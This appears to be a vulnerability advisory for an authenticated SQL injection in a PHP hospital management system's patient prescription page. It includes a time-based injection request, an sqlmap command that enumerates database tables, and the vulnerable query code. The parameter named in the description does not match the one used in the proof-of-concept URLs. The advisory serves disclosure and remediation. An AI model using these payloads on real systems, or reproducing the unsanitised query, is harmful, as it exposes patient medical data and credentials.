

# CVE ASSIGNED: 
## CVE PUBLISHED STATE:  
## CVE LINK: 

## Description:
The patient prescription viewing functionality in his_doc_view_single_patient.php of rickxy Hospital Management System version 1.0 contains an SQL injection vulnerability. The pres_pat_number GET parameter is directly concatenated into SQL queries without proper sanitization, allowing authenticated attackers (doctor role) to execute arbitrary SQL queries. This vulnerability enables complete database compromise and exposure of sensitive medical data including patient records, prescriptions, and administrative credentials.

## Impact:
- Complete database compromise through SQL injection
- Unauthorized access to patient medical records  
- Exposure of sensitive healthcare data (HIPAA violation)
- Administrative credential theft and privilege escalation


## Attack Scenario:
1. Attacker gains doctor-level access to the HMS application
2. Navigates to patient prescription viewing functionality
3. Captures requests to his_doc_view_single_patient.php endpoint  
4. Manipulates pres_pat_number parameter with SQL injection payloads
5. Executes time-based, union-based, or boolean-based SQL injection
6. Extracts complete database contents including patient data and admin credentials
7. Achieves privilege escalation

## Technical Details:
- **Vulnerability Type:** SQL Injection
- **CWE Classification:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)  
- **Attack Type:** Remote (Authenticated)
- **Affected Version:** 1.0
- **Affected Component:** his_doc_view_single_patient.php (Doctor Module)
- **Impact:** Complete Database Compromise
- **Parameter:** pres_pat_number (GET parameter)

## Affected Products:
- rickxy Hospital Management System: https://github.com/rickxy/Hospital-Management-System
- All installations running version 1.0

## Vendor Information:
rickxy  
https://github.com/rickxy/Hospital-Management-System

## Proof of Concept:
1. Authenticate as doctor user in HMS application
2. Navigate to patient prescription viewing page
3. Capture request to his_doc_view_single_patient.php
4. Execute SQL injection via pres_pat_number parameter:

**Time-based injection:**
```
GET /hms/backend/doc/his_doc_view_single_patient.php?pat_id=12&&pat_number=4TLG0%27+AND+SLEEP(1);--%20- HTTP/1.1
```

**sqlmap exploitation:**
```bash
sqlmap -u "http://localhost/hms/backend/doc/his_doc_view_single_patient.php?pat_number=*" --cookie "PHPSESSID=" -D hmisphp --tables
```


**Vulnerable code:**
```php
<?php
$pres_pat_number=$_GET['pres_pat_number'];
$ret="SELECT * FROM his_prescriptions WHERE pres_pat_number = '$pres_pat_number'";
$stmt= $mysqli->query($ret);
$res=$stmt->fetch_object();
?>
```

## References:
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- HIPAA Security Rule: https://www.hhs.gov/hipaa/for-professionals/security/

## Severity: Critical

## Fix:
- Implement parameterized queries/prepared statements for all database operations
- Add comprehensive input validation and sanitization
- Use whitelist-based validation for patient numbers  
- Implement proper error handling without information disclosure
- Add database query logging and monitoring
- Conduct security code review of all SQL operations
- HIPAA compliance audit and security controls implementation

## Discoverer:
Cristian Branet